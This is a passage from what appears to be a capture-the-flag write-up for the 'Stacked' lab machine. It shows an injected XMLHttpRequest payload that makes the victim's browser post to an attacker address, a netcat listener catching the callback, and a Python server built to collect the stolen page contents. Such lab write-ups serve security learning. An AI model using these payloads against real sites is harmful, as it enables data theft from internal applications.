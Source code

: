 ```python
}

r = requests.post(URL + '/process.php', data=data, headers=headers, verify=False, proxies=proxies)
```

Using the above, I can start to steal pages from the ports within the `docker-compose.yml` file. 

First, I had the machine retrieve my page so I could see the headers. The page mentioned using `XMLHttpRequest`, so I used just that:

```js
var req = new XMLHttpRequest();    
req.open("POST", "http://10.10.14.18:8000/", false);    
req.send(null);
```

I started a listener port on port 8000, and this is the output from the request:

```
$ nc -lvnp 8000             
listening on [any] 8000 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.228.28] 60794
POST / HTTP/1.1
Host: 10.10.14.18:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Origin: http://mail.stacked.htb
Connection: keep-alive
Content-Length: 0
```

There was a `mail.stacked.htb` domain!

### Mail Enum --> S3 Bucket

I started to enumerate this instance by retrieving the page contents using this Python HTTP server for POST requests:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        for key, values in params.items():
            print(f"{key}: {values}")
    

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```